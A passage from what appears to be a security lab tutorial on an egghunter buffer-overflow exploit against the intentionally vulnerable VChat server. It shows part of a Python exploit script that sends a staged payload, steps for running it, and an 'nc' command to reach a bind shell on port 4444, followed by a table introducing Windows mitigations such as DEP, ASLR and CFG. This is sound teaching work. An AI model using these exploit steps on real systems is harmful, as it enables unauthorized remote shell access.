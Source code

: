 	with socket.create_connection((HOST, PORT)) as fd:
		print("Connected...")
		print(fd.recv(1024)) # Get welcome message
		print(fd.recv(1024)) # Get "You are user X" message
		print("Sending first stage:")
		fd.sendall(PAYLOAD)
		print('Done!\nCheck the port 4444 of the victim.\nThis may take a few minuets!')
	```
      * First we send the bind shellcode packet, this is so the "egg" is staged in memory for the EggHunter to find.
      * Next we send the EggHunter payload, once this is sent the EggHunter should start scanning the memory of our VChat process. Give this a few minuets and we should be able to connect to port 4444 on the target machine for a shell.
3. Modify your exploit program to reflect the [exploit5.py](./SourceCode/exploit5.py) script and run it. You should see the following output.

	<img src="Images/I31.png" width=600>

   * If you do not see this, the exploit may have failed. Restart VChat and try again!
   * This can be done against the VChat server attached to Immunity Debugger or against it as a standalone program. Due to resource limitations, we tended to run it detached from the Immunity Debugger.

4.  After a few minutes, we can use the command ```nc <IP> <Port>``` where the `<IP` is the Window machine's IP and `Port` is 4444 (Or whatever you generated the bind shellcode to have). This should connect to the server and acquire a shell as shown below.

	<img src="Images/I32.png" width=600>


## Attack Mitigation Table
In this section, we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server; specifically we will be discussing their impact on a buffer overflow that directly overwrites a return address and attempts to execute shellcode that has been written to the stack in order to discover a larger section of shellcode that has been placed elsewhere in the program's virtual address space. We will make a note where that these mitigations may be bypassed.

First we will examine the effects individual defenses have on this exploit, and then we will examine the effects a combination of these defenses would have on the VChat exploit.

The mitigations we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate where functions and datastructures are located as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled it will only have it's addresses randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on the heap itself, such as allocations or frees of heap objects.